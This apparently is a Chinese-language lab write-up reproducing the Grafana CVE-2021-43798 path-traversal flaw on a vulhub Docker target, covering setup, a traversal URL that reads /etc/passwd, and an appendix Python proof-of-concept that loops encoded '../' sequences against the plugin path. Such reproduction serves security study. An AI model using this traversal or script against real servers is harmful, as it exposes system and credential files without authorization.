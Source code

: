 # 一、概述
* Grafana是一个跨平台的开源的度量分析和可视化工具，可以通过将采集的数据查询然后可视化的展示，并及时通知
* 我以前用Frafana其实主要是作为系统运行状态的监控，例如：磁盘、CPU、内存、IO、网络连接、带宽等，可能我用的比较低级

# 二、影响版本
* Grafana 8.0.0-beta1 to 8.3.0

# 三、靶场搭建
* 这里我使用的是`vulhub`线下靶场
```
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# ls
1.png  docker-compose.yml  README.md  README.zh-cn.md
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# pwd
/home/wq/vulhub/grafana/CVE-2021-43798
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# docker-compose up -d
root@wq:/home/wq/vulhub/grafana/CVE-2021-43798# docker ps 
CONTAINER ID   IMAGE                  COMMAND     CREATED         STATUS         PORTS                                       NAMES
a00bff358259   vulhub/grafana:8.2.6   "/run.sh"   2 minutes ago   Up 2 minutes   0.0.0.0:3000->3000/tcp, :::3000->3000/tcp   cve-2021-43798_web_1
```
* 尝试访问：`http://192.168.10.134:3000`，访问成功说明靶场搭建成功
![图 8](.images/CVE-2021-43798/IMG_20220118-143053174.png)  


# 四、漏洞复现
* 漏洞发现过程：
    * 这里在访问这个地址时发现了是`Granfan`服务，猜测可能存在跨路径访问的漏洞
    * 我们是`BP`进行抓包复现
    ![图 9](.images/CVE-2021-43798/IMG_20220118-143427417.png)  
    * 编写POC进行测试：开始访问：`http://192.168.10.134:3000/public/plugins/alertlist/../../../../../../../../etc/passwd`
    ![图 10](.images/CVE-2021-43798/IMG_20220118-143710667.png)  
    * 出现以上内容存在跨路径访问漏洞

# 五、总结
* 当我们拿到一个可以登录的服务时候，我们需要知道这个是什么服务，对于不同服务的默认登录，往往都是有漏洞是可以利用的，这个明显看出就是`grafana`的服务，再我们并不知道服务版本信息的时候，往往都要去cve的批量漏洞扫描，现在结合我们已经掌握的漏洞进行，尝试去跨路径去方式

# 六、附录
* 备注：脚本有点问题，自行修改，这里只是做为参考
``` python
import time

import requests

headers = {'content-type': 'application/json',
           'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36 QIHU 360SE'
           }
def pocTest(url,cookies=""):
    for i in range(1,10):
        try:
            """
            /public/plugins/alertlist/../../../../../%2e%2e/../../etc/passwd
            """
            PATH = '%2e%2e/'*i
            urls = "{}public/plugins/alertlist/{}etc/passwd/".format(url,PATH)
            print("当前url:{}".format(urls))
            time.sleep(2)
            res = requests.get(url=urls,headers=headers,cookies=cookies)
            if "root" in res.content.decode("utf-8"):
                print("漏洞验证成功,当前请求链接为:{}".format(urls))
                print(res.content.decode("utf-8"))
        except Exception as erro:
            print(erro)

def reqCookie(url):
    try:
        res = requests.get(url=url,headers=headers,verify=False)
        print(res.status_code)
        if res.status_code == 200:
            print("访问正常")
            if res.cookies != "":
                return res.cookies.values()
            else:
                return ""
    except Exception as erro:
        print(erro)


if __name__ == "__main__":
    isCookie = False
    url = "http://192.168.10.134:3000/"
    if isCookie:
        """
        不需要带有cookies可以直接进行POC验证请求
        """
        pocTest(url)
    else:
        """
        需要带有cookies需要先get请求一次获取返回的cookies
        """
        resCookies = reqCookie(url)
        pocTest(url,cookies=resCookies)

```
